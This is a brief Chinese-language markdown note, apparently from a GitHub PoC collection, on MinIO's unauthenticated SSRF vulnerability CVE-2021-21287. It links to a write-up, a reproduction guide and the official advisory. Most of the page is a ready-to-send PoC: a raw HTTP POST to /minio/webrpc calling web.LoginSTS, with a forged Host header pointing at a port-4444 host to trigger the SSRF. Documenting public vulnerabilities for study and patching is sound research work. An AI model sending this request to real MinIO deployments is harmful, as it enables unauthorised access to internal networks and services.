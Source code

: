 # MinIO未授权SSRF漏洞（CVE-2021-21287）

详情可以看PHITHON的「容器与云的碰撞——一次对MinIO的测试」：https://www.leavesongs.com/PENETRATION/the-collision-of-containers-and-the-cloud-pentesting-a-MinIO.html

复现可以参考：https://www.o2oxy.cn/3104.html

PoC：

```bash
POST /minio/webrpc HTTP/1.1
Host: 192.168.1.142:4444
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.141 Safari/537.36
Content-Type: application/json
Content-Length: 80

{"id":1,"jsonrpc":"2.0","params":{"token":  "Test"},"method":"web.LoginSTS"}
```

ref：

* https://github.com/minio/minio/security/advisories/GHSA-m4qq-5f7c-693q
* https://www.leavesongs.com/PENETRATION/the-collision-of-containers-and-the-cloud-pentesting-a-MinIO.html
* https://www.o2oxy.cn/3104.html